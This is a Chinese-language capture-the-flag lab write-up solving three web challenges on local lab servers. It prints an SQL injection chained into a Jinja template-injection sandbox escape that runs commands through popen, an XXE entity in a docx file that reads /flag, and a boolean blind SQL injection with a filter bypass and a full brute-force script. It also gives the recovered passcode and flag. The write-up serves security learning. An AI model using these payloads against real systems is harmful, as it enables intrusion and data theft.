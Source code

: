 ```yaml
---
title: Web Lab 3：后端漏洞基础
---
```



{/* xec73tmgodgmat1oil3s87ytkz3ojimd */}


<PasswordContainer md5="2e039985539dcf9fb68b684623528952">

## Task 1: Being and Code (30%)

<Card title="任务" type="task">
- 完成 `Being and Code`
  - 平台上可下载源码
  - 本题用到的是轻量级数据库SQLite，语法和MySQL非常像
  - 本题不会涉及到在MySQL和SQLite下有明显差异的攻击技术
  - Flag在根目录某文件里，文件名未知
  - 你可能需要实现有回显的RCE
</Card>


```python
    query = f"SELECT username FROM users WHERE id = {id}"
```

开局先蚌埠住了

可惜sqlite3不能RCE

```python
    template = '''
        <html>
          <head>
            <title>SSTI</title>
          </head>
         <body>
              <h3>Hello, %s !</h3>
          </body>
        </html>
        '''% (name)
    return render_template_string(template)
```

哦哦哦哦哦哦 RCE在这呢

那很显然了，注id让sqlite3返回RCE payload

SQLi Payload为：`http://127.0.0.1:12108/?id=-1 UNION SELECT '<SSTI Payload>'`

然后是RCE，`"".__class__.__base__.__subclasses__()[155].__init__.__globals__["popen"]("<cmd>").read()`，经典的基础无builtins沙箱逃逸



<NImage src={Image1} alt="web3-1-solved" width="100%" />


## Task 2: Yes Author (35%)

<Card title="任务" type="task">
- 完成 `Yes Author`
  - 题目只解析你上传的.docx文件
  - 有内容的.docx文件本质是一个.zip压缩包
  - Flag在/flag文件内
  - 本题不需要RCE
</Card>

修改`core.xml`如下：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM 'file:///flag'>]>
<cp:coreProperties ...>
<cp:lastModifiedBy>&xxe;</cp:lastModifiedBy>
...
</cp:coreProperties>
```


<NImage src={Image2} alt="web3-2-solved" width="100%" />

## Task 3: Passcode+ (35%)

<Card title="任务" type="task">
- 完成 `Passcode+`
  - 本题基于MySQL
  - 服务端有最基础的注入过滤功能
  - `passcodes`表的`passcode`列下存储了全部的passcode，有多行数据
  - Flag**不在**数据库中，输入正确的passcode后自动获得
</Card>


先基本测试一下，发现是关键词过滤。

跑了一个SQLite keywords发现过滤了以下关键词：

- `ABORT`
- `AND`
- `BEFORE`
- `FOR`
- `FOREIGN`
- `IF`
- `IGNORE`
- `LIMIT`
- `OR`
- `ORDER`
- `TEMPORARY`
- `UNION`

（好吧其实就是`OR,AND,IF,UINON,LIMIT`）

然后跑了一个MySQL built-in function，发现还过滤了一个`SLEEP`

那就是经典bool盲注了，payload为`1' || (SELECT ASCII(SUBSTRING(MIN(passcode),1,1)) FROM passcodes) = ${i} # --`

写写码：

```js
const do_check = (word)=>fetch("http://127.0.0.1:7819/check_code.php",{
    method: "POST",
    body: "passcode=" + word,
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    }
}).then(v => v.text()).then(v => v.includes("WRONG PASSCODE"));

const charcode_array_to_string = (arr) => {
    return arr.map(c => String.fromCharCode(c)).join('');
};

(async () => {
    const lx = []
for(let s = 1; s < 100; s++) {
    // console.log(`Current position: ${s}`);
    
    for(let i=0;i<256;i++){
        await do_check(`1' || (SELECT ASCII(SUBSTRING(MIN(passcode),${s},1)) FROM passcodes) = ${i} # --`).then(v=>{
            if(v){
                // console.log(`Found: ${i}`);
            } else {
                // console.log(`Not found: ${i}`);
                lx.push(i);
                // console.log(`Current charcode array: ${charcode_array_to_string(lx)}`);
            }
            const progress = Math.floor(i / 256 * 16);
            console.log(`\rProgress [${'='.repeat(progress)}${' '.repeat(16-progress)}] ${s}:${i} str: ${charcode_array_to_string(lx)}`);
        })
    }
}
})()
```

一个passcode:`3n0_3d0c55@p`

flag: `AAA{90tt_wu3rf31t_nich7}`

</PasswordContainer>